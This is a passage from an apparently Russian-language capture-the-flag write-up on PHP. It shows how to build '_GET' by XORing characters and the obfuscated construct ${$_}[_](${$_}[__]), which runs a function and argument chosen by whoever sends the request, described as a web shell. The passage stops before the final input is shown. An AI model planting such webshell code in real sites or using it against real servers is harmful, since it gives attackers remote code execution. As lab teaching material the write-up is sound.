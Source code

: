 ```php
<?php
    echo "{" ^ ">";
?>
```

![answer4](../assets/img/web/answer4.png)

```php
<?php
    echo "{" ^ "/";
?>
```

![answer5](../assets/img/web/answer5.png)

Итак, мы можем знать, что `_GET` устроен следующим образом!

#### Получить параметр `_GET`

Как нам получить параметр `_GET`? Мы можем построить следующую строку:

```php
<?php
    echo ${$_}[_](${$_}[__]); //$_GET[_]($_GET[__])
?>
```

Согласно предыдущей конструкции `$_` превратилось в `_GET`. Естественно, `$_ = _GET`. Мы создали `$_GET[__]` для
получения значений параметров.

#### Входящие параметры

На этом этапе нам просто нужно вызвать функцию `getFlag`, чтобы получить `веб-оболочку`, построенную следующим образом:
